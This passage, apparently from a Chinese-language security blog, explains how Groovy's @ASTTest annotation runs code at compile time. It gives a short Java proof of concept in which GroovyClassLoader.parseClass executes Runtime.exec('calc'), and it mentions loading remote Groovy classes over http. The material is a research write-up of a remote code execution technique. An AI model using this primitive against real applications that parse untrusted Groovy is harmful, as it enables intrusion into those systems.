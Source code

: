 可惜需要实例化，单纯defineClass并没有什么用

不过在Groovy中，只加载不初始化也是有办法RCE的

### AST注解

AST（Abstract Syntax Tree，抽象语法树）注解是 Groovy 提供的一种元编程工具，它允许你在编译时对代码进行修改或增强。这些注解在编译阶段被 Groovy 编译器识别并执行，因此可以在编译时对代码进行静态检查、代码生成或代码转换等操作。`@groovy.transform.ASTTest` 注解就是一个典型的例子，它在编译时执行指定的闭包，用于测试或验证代码的某些特性

AST注解的基本语法如下：

```groovy
@ASTTransformationClass(value="fully.qualified.name.of.TransformationClass")
```

其中，@ASTTransformationClass 是 Groovy 提供的一个元注解，用于指定一个实现了 org.codehaus.groovy.transform.ASTTransformation 接口的类。这个类在编译时会被调用，对标注了该注解的代码进行处理。

常见的AST注解：

@CompileStatic：启用静态类型检查，提高性能。
@Delegate：将方法委托给另一个对象。
@Canonical：自动生成构造函数、equals、hashCode 和 toString 方法。
@TupleConstructor：自动生成一个包含所有属性的构造函数。
@ASTTest：在编译时执行指定的闭包，用于测试或验证代码。

利用ASTTest可以在编译时就执行代码，从而RCE

比如，我指定下面的Evil.groovy

```groovy
@groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec("calc")})
class Person{}
```

POC：

```java
public class groovyClassLoader {
    public static void main(String[] args) throws Exception
    {
        GroovyClassLoader gcl = new GroovyClassLoader();
        Class clazz = gcl.parseClass("@groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec(\"calc\")})\n" +
                "class Person{}");
    }
}
```



利用addClasspath+loadClass还可以手动加载http远程groovy类

addClasspath调用addURL->URLClassLoader.addURL把URL加入了ucp，熟悉的已经想到ucp是类加载的路径了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241028212518220.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241028212546569.png)
